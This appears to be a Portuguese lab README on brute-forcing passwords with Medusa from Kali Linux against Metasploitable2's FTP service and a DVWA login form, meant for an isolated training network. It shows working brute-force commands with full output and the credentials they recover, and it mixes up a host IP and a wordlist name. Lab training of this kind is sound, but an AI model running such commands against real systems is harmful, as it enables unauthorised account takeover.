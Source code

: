 # Ataque-de-Brute-Force-de-Senhas-com-Medusa-e-Kali-Linux
**Objetivo**: Neste projeto iremos simular um ataque de senha utilizando o recurso Medusa do Kali Linux.

---
## Conteúdo deste pacote
- `README.md` = Obtém a documentação e a explicação.
- `users.txt` = wordlist de usuários de exemplo.
- `pass.txt` = wordlist de senhas de exemplo.

---
## O que será preciso antes de começar
- `VirtualBox` = É uma máquina virtual usada para instalar os sistemas operacionais que serão necessários.
- `Kali Linux` = O Kali Linux é muito usado por conta das suas ferramentas de segurança e testes de penetração (atacante).
- `Metasploitable2` = máquina virtual intencionalmente vulnerável para treinamento e testes (alvo).

---
## Rede e atualização
### Atualização
**Abra o Kali Linux;** em seguida, abra um terminal e execute os comandos abaixo para atualizar o sistema e instalar as ferramentas necessárias.
```
sudo apt update && sudo apt upgrade -y
sudo apt install medusa hydra enum4linux smbclient smbmap net-tools tcpdump -y
```

### Rede
**Manter o Kali Linux e o Metasploitable2 na mesma rede: para verificar se ambas as máquinas encontram‑se na mesma rede**, abra um terminal no Kali e execute `ip a` (ou `ifconfig`, se disponível) para obter o endereço IP. Confirme que os endereços pertencem à mesma faixa de rede (por exemplo, `192.168.56.0/24`). Caso contrário, abra as **Configurações** → **Rede** da máquina virtual no VirtualBox e, em **Conectado a**, selecione **Host‑Only Adapter** ou **Rede Interna** para isolar o laboratório. Após a alteração, aplique as configurações e verifique novamente a conectividade.

**IPs de exemplo:**
- Kali: `192.168.56.100`
- Metasploitable2: `192.168.56.101`

---
### Ataques 
#### FTP força bruta (Medusa) 

**Executar Comando na ferramenta medusa**

`medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 4`

**O que faz:** Tenta autenticar no serviço FTP do host 192.168.56.101 usando combinações do `users.txt` e `pass.txt` das wordlists fornecidas.

**Saída**
```
┌──(kali㉿kali)-[~]
└─$ medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 4
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 1 complete) Password: password (1 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 1 complete) Password: msfadmin (1 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 1 complete) Password: 123456 (2 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 2 complete) Password: msfadmin (3 of 4 complete)
2025-10-22 17:30:50 ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: 123456 (2 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: password (3 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: qwerty (4 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 4 complete) Password: qwerty (4 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 4 complete) Password: 123456 (1 of 4 complete)
2025-10-22 17:30:50 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 4 complete) Password: password (2 of 4 complete)
2025-10-22 17:30:51 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 4 complete) Password: 123456 (1 of 4 complete)
2025-10-22 17:30:51 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: qwerty (3 of 4 complete)
2025-10-22 17:30:51 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: msfadmin (4 of 4 complete)
2025-10-22 17:30:55 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: password (2 of 4 complete)
2025-10-22 17:30:55 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: qwerty (3 of 4 complete)
2025-10-22 17:30:55 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: msfadmin (4 of 4 complete)
```
Percebe-se que, na linha 5 da saída, obtivemos um sucesso: usuário `msfadmin`, senha `msfadmin`.

**Verificação:** execute ftp 192.168.56.101 para confirmar.

Resultado esperado:
```
Connected to 192.168.56.101.
220 (vsFTPd 2.3.4)
Name (192.168.56.101:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
---
#### Força Bruta em Formulário Web (DVWA)

**Comando Executado:**
```
medusa -h 192.168.56.102 -u admin -P pass.txt -M http -m DIR=/dvwa/login.php -m FORM-DATA="username=%USER%&password=%PASS%&Login=Login" -v 4
```
**O que faz:** envia requisições de login HTTP ao endpoint /dvwa/login.php em 192.168.56.102, testando o usuário admin com as senhas do arquivo senhas.txt até encontrar uma combinação válida.

**Parâmetros-chave:** host -h, usuário -u admin, wordlist de senhas -P pass.txt, módulo -M http, endpoint -m DIR=/dvwa/login.php, corpo do formulário -m FORM-DATA=..., verbosidade -v 4.

**Resultado esperado:** abrir no navegador http://192.168.56.101/dvwa/login.php e testar as credenciais encontradas.
---
#### 



